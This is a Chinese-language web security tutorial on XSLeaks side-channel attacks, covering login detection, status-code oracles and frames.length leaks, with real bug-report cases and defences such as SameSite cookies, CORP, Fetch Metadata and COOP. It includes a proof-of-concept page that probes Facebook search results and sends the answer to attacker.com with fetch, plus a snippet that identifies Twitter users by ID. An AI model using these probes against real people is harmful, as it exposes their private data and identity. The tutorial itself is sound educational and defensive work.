

# 最有趣的前端旁路攻擊：XSLeaks（上）

XSLeaks，全名為 Cross-site leaks，意思就是可以利用一些技巧來洩露出別的網站的一些資訊。雖然說照這個定義來看，其實這篇應該是要放在「跨越限制攻擊其他網站」那一章，但因為我想把這個主題放壓軸，所以就移到最後面了。

這是我在學習前端資安時，覺得最有趣也最喜歡的一個主題。如果大學裡面有一個「前端資安系」，那 XSLeaks 應該會放在大三或大四的選修，意思就是，你需要有很多先備知識再來瞭解這個主題會比較好。它牽涉到了前後端的溝通、瀏覽器的運作以及各種前端技巧還有想像力與創造力等等，這也是為什麼我覺得它有趣的原因。

想要了解什麼是 XSLeaks，得先從什麼是旁路攻擊開始。

## 旁路攻擊，就是一種旁敲側擊

旁路攻擊，英文為 side-channel attack，之前在講 CPU 的漏洞 Meltdown 與 Spectre 時就有提過這個攻擊方式。

講到旁路攻擊，我最喜歡的一個例子就是經典的「燈泡問題」（雖然在《今際之國的闖關者》裡面有出現，但我記得更早其實就有這東西了）。

假設你在的房間有三個開關，分別對應到另一個房間的三個燈泡，這兩個房間隔著一扇門，所以看不到另一間的狀況。而你現在可以隨意操作開關，接著只有一次機會能夠進入另一個房間再回來，回來之後要回答這三個開關分別對應到哪個燈泡，你該怎麼做？

如果只有兩個燈泡兩個開關就簡單了，假設是 A 跟 B 好了，你就打開 A 開關，前往房間，有亮的那個就是對應到 A 開關，沒亮的就是對應到 B。

那如果是三個呢？該怎麼辦？

這個經典問題的回答就是，先打開 A 開關幾分鐘，然後關掉，接著打開 B 開關，然後就可以前往隔壁房間了。看到有亮的那個燈泡，對應到的就是 B 開關，那另外兩個燈泡怎麼分呢？

用手摸一下燈泡，熱熱的那個代表剛剛有開過，所以就是 A，不熱的就是 C 了。

在這個問題中，我們除了亮暗以外，還可以從開燈時會產生的副作用（side effect）：溫度，來推斷出一個燈泡之前是開著還是關著的，這就叫做旁路攻擊。

另一個例子是推理電影中常出現的，用手摸一下停車場中車子的引擎蓋，熱的就代表才剛停車沒多久，這也是一種旁敲側擊的方式。

若是把這種原理運用在網頁前端中，就叫做 XSLeaks。

如同我之前一再強調的，對於瀏覽器來說，有一件很重要的事情就是阻止一個網站去存取另一個非同源網站的資訊，也就是以前提過的同源政策，因此瀏覽器做了很多限制，例如說存取其他網站時會出現違反同源政策的錯誤訊息等等。

而 XSLeaks 就是在網頁前端中試著用旁路攻擊的方式繞過這個限制，去洩露出另一個不同來源網站的資訊。

老樣子，直接看個範例是最快的。

## XSLeaks 實際體驗

大家可以用瀏覽器開啟這個網頁：https://browserleaks.com/social

這是一個用來偵測你在哪些網站上面有登入的網頁，以我來說，結果如下圖：



它是怎麼辦到的呢？

首先，在載入一張圖片的時候可以用 `onerror` 跟 `onload` 來判斷圖片是否載入成功，如下：

``` html

```

而這個「載入成功」的定義不只是 response 的狀態碼要是 200，內容也要是一張圖片才行。如果載入的是一個網頁的話，一樣會觸發 `onerror` 事件。

再來，很多網站都有提供一些重新導向的功能，例如說你想看自己在購物網站的某張訂單資訊，網址可能是：`https://shop.example.com/orders/12345`，而你點進去這個網址時沒有登入，就會被導到 `https://shop.example.com/login?redirect=/orders/12345` 之類的頁面，登入成功以後就會被導回你原本想去的訂單頁面。

這種方法滿常見的，因為對使用者體驗來說很不錯，讓使用者不必自己再重新回去。那如果你在登入狀態下前往 `https://shop.example.com/login?redirect=/orders/12345` 這個連結呢？那就不會進到登入畫面，會直接被導到最後的訂單頁面

只要結合圖片載入加上登入後重新導向這兩個功能，就能做到偵測一個 cross-origin 的網頁是否登入。

以 Medium 為例，它們的 logo 網址是：`https://medium.com/favicon.ico`，而 Medium 也有這種登入以後重新導向的功能，像這樣：

```
https://medium.com/m/login-redirect
?redirectUrl=https%3A%2F%2Fmedium.com%2Ffavicon.ico
```

以這個網址來說，若是沒有登入，就會跳到登入頁面；若是有登入，就會跳轉到 Medium 的 logo。因此，HTML 就可以這樣寫：

``` html

```

如果使用者有登入的話，就會跳轉到網站的 logo 網址，因為這真的是張圖片所以會執行到 `onload`，反之，則會被導到登入頁面，而這不是圖片所以會到 `onerror`。

所以，我們可以透過這個「登入後重新導向」的行為，再結合圖片的載入與否，去判斷出一個使用者是否處於登入狀態，這就是經典的 XSLeaks。

判斷一個使用者是不是登入狀態，這個的用處似乎不是很大，讓我們再看個更實用一點的。

## 利用狀態碼的 XSLeaks

`` 在載入內容時，除了會檢查狀態碼以外，也會檢查 response 是不是一張圖片，因此只能拿來判斷「最後載入的是不是圖片」。而另外一個標籤 `<script>` 就不同了，如果 response 的狀態碼是 200，那就算內容不是 JavaScript，也不會觸發 `onerror` 事件。

對 `<script>` 來說，如果狀態碼是 200，就代表這個 URL 的東西有成功下載，因此會觸發 `onload`，只是最後在執行裡面的 JavaScript 程式碼時如果是不合法的程式碼，還是會拋錯。

因此，我們可以用 `<script>` 標籤來間接知道一個 URL 的狀態碼是成功還是失敗，像這樣：

``` js
const express = require('express');
const app = express();

app.get('/200', (req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/html'})
  res.write('<h1>hlelo</h1>')
  res.end()
});

app.get('/400', (req, res) => {
  res.writeHead(400)
  res.end()
});

app.get('/', (req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/html' })
  res.write('<script src="/200" onerror=alert("200_error") onload=alert("200_load")></script>')
  res.write('<script src="/400" onerror=alert("400_error") onload=alert("400_load")></script>')
  res.end()
});

app.listen(5555, () => {
  console.log('Server is running on port 5555');
});
```

最後會出現的是 `200_load` 與 `400_error`，但是在 console 依然會看到錯誤訊息：

> Uncaught SyntaxError: Unexpected token '<' (at 200:1:1)

那知道一個 response 的狀態碼可以幹嘛呢？我們來看個實際案例。

terjanq 在 2019 年時向 Twitter 回報了一個漏洞：[Twitter ID exposure via error-based side-channel attack](https://hackerone.com/reports/505424)，裡面就描述了如何運用這種攻擊方式。

他發現了推特裡面有一個 API 網址會回傳使用者的相關資訊：`https://developer.twitter.com/api/users/USER_ID/client-applications.json`

如果我現在沒登入，或是登入了可是 `USER_ID` 對不上，就會回傳 403 狀態碼並且出現錯誤訊息：

> {"error":{"message":"You are not logged in as a user that has access to this developer.twitter.com resource.","sent":"2019-03-06T01:20:56+00:00","transactionId":"00d08f800009d7be"}}. 

如果登入了而且 `USER_ID` 是正確的，就會回傳使用者相關的資料。這個設計在權限管理上完全沒問題，因為使用者不能存取其他人的資料，但是這個狀態碼的差異就造成了 XSLeaks 的空間。

利用方式是這樣的，假設我現在知道小明的推特 `USER_ID`，是 12345，那我在自己的部落格上就可以寫這樣一段程式碼：

``` html
<script src=https://developer.twitter.com/api/users/12345/client-applications.json onload="alert('嗨嗨小明，我知道你在看！')">
</script>
```

這是一個可以侵害隱私權的漏洞，你訪問一個沒去過的網站時，它可以利用這種方式精準地認出「你是不是某某人」，其實還滿可怕的。

那這個漏洞應該怎麼修呢？

## XSLeaks 的防禦方式之一

最簡單的防禦方式其實就是之前一再提過的 same-site cookie，透過把 cookie 設置成 `SameSite=Lax`，無論是用 `` 或是 `<script>`，cookie 都不會一併帶上，就不會有前面所講的問題。

而現在瀏覽器也已經有預設了這個機制，所以就算開發者們沒有主動參與也會被受到保護，除非他們自己把 cookie 設定成 `SameSite=None`。而事實上也確實有網站這樣做了，我們最一開始開的那個偵測是否登入的網站，能偵測出來的都是有開 `SameSite=None` 的網站。

除了 same-site cookie 以外，還有幾種方式也能防禦這樣的攻擊。

第一種是之前講 CORS 時提過的 `Cross-Origin-Resource-Policy` 的 header，這個等於是資源版的 CORS header，可以阻止其他網站載入這些資源。

如果加上：`Cross-Origin-Resource-Policy: same-origin` 的話，那剛剛的範例中無論是 200 還是 400，script 都會執行到 `onerror` 事件，因為這兩個都被 CORP 擋下來了，console 會出現錯誤：

> GET http://localhost:5555/200 net::ERR_BLOCKED_BY_RESPONSE.NotSameOrigin 200 (OK)
> GET http://localhost:5555/400 net::ERR_BLOCKED_BY_RESPONSE.NotSameOrigin 400 (Bad Request)

第二種是一個叫做 Fetch Metadata 的新機制，它是當網頁發出 request 時，瀏覽器會自動加上的 header，有以下幾個：

1. `Sec-Fetch-Site`，發出請求的網站跟目標網站的關係
2. `Sec-Fetch-Mode`，發出請求的模式
3. `Sec-Fetch-Dest`，請求的目的地

舉例來說，如果你從一個 cross-origin 的地方在頁面上使用 `<script>` 標籤載入 `http://localhost:5555/200`，這幾個 header 就會是：

```
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
```

伺服器就可以根據這幾個 header 的內容去做防範，例如說伺服器那邊都是 API，可以篤定絕對不會被 `<script>` 或其他標籤載入，只會被 `fetch` 呼叫到，就可以阻止這些非預期行為：

``` js
app.use((res, res, next) => {
  if (res.headers['Sec-Fetch-Dest'] !== 'empty') {
    res.end('Error')
    return
  }
  next()
})
```

`Sec-Fetch-Site` 的值主要有以下幾種：

1. same-origin
2. same-site
3. cross-site
4. none（無法歸類在上面的，例如說瀏覽器從書籤點開網站）

`Sec-Fetch-Mode` 有這幾種：

1. same-origin
2. no-cors
3. cors
4. navigate

而 `Sec-Fetch-Dest` 的值因為太多了我就不列出了。

第三種的話就是把成功跟失敗的狀態碼都改成 200，就無法根據狀態碼的差別偵測出差異了。

這個讓我想到後端討論區有一個時不時就會出現的問題是，到底 response 的狀態碼要怎麼設定，例如說有些人會把狀態碼當成是資源本身的狀態碼，比如說 `/api/books/3`，如果沒有這個資源，就回傳 `404 Not found`。

但有些人會把這個狀態碼當成另一種用途，`/api/books/3` 雖然沒有這本書，但是這個 API 存在，所以回傳 200，在 body 裡面才回傳找不到的訊息。訪問 `/api/not_exist` 這個不存在的 API 才會回傳 404。

如果從這個角度看的話，第二種設計方式可以解決 XSLeaks 的問題。不過，我自己覺得特地改動狀態碼來防範攻擊不是件好事，畢竟牽涉到的東西很多，有可能前端也要跟著改。比較好的方式還是先透過 same-site cookie 去做防禦，最容易也最簡單。

## 其他可以 leak 的東西

在 HTML 裡面，其實可以拿來當作 leak oracle 的東西還不少，例如說 frames 的數量就是一個。

以前有提過瀏覽器會限制你對於一個 cross-origin window 的存取，能碰到的東西很有限，例如說你雖然可以利用 `location = '...'` 重新導向，但你拿不到 `location.href` 或是其他的值。

但是在這種限制底下，還是有一些些的資訊是可以取得的，像是 frames 的數量，範例程式碼如下：

``` js
var win = window.open('http://localhost:5555')
// 等 window 載入完成
setTimeout(() => {
  alert(win.frames.length)
}, 1000)
```

如果開啟的頁面有一個 iframe，長度就是 1，什麼都沒有的話就是 0。如果一個網站會根據行為的不同，而有不同的 iframe 數量的話，我們就可以用這招來偵測。

例如說 2018 年資安公司 Imperva 部落格中的：[Patched Facebook Vulnerability Could Have Exposed Private Information About You and Your Friends](https://www.imperva.com/blog/facebook-privacy-bug/) 就是利用了這個技巧。

Facebook 有一個搜尋的功能，可以搜尋自己的朋友、貼文或是相片等等，而這個搜尋功能可能是為了方便分享，所以直接從網址點進去就可以搜。舉例來說，`https://www.facebook.com/search/str/chen/users-named/me/friends/intersect` 這個 URL 會顯示朋友中名字有「chen」的搜尋結果。

而作者發現了一個差異，就是如果搜尋結果有東西，那頁面上會有一個 iframe，作者推測這可能是 Facebook 做 tracking 所需要的。若是沒有結果，那就不會有這個 iframe。

換句話說，我們可以從 `frames.length` 得知搜尋的結果有沒有東西。

攻擊流程是這樣的，我們先準備好一個 HTML，內容是：

``` html
<script>
  let win = window.open('https://www.facebook.com/search/str/chen/users-named/me/friends/intersect')
  setTimeout(() => {
    if (win.frames.length === 0) {
      fetch('https://attacker.com/?result=no')
    } else {
      fetch('https://attacker.com/?result=yes')
    }
    win.close()
  }, 2000)
</script>
```

接著把這個網頁傳給目標，目標點開網頁之後，攻擊者的 server 就會收到搜尋的結果。

像是這個攻擊就防禦就比較麻煩了，因為 same-site cookie Lax 是沒有作用的，這邊使用的是 `window.open`，除非你設成 strict，否則 cookie 是會一起帶上去的。

之前提的 Fetch Metadata 也沒用，因為這其實是一個正常的 request。

若是要用現有機制防禦的話，可以加上 COOP（Cross-Origin-Opener-Policy）header，這樣開啟的 window 就會跟原本的失去連結，就無法拿到 `win.frames`。

除此之外，就是要修改搜尋結果頁面了，無論有沒有搜尋到，要嘛就都有 iframe，要嘛就都沒有，就無法透過 iframe 的數量去洩露資訊。

## 小結

在這篇裡面我們知道了什麼是旁路攻擊，也知道了 XSLeaks 的基本原理，還看到了不少現實生活中的範例，證明這確實是一個可以被利用的漏洞。

當然，XSLeaks 需要的前置作業跟條件通常都比較多，跟其他漏洞比起來，能夠得到的結果也有限，但我自己認為這依然是個很有趣的漏洞。

Google 本身在 bug bounty 這一塊就特別有一個[頁面](https://bughunters.google.com/learn/invalid-reports/web-platform/xsleaks/5022006283862016/xsleaks-and-xs-search)在講 XSLeaks，因為大多數問題他們都已經知道，而且內部有工程師專門在研究這一塊，所以不建議賞金獵人把時間花在這邊。

參考資料：

1. [Protect your resources from web attacks with Fetch Metadata](https://web.dev/i18n/en/fetch-metadata/)
2. [XS-Leaks wiki](https://xsleaks.dev/)

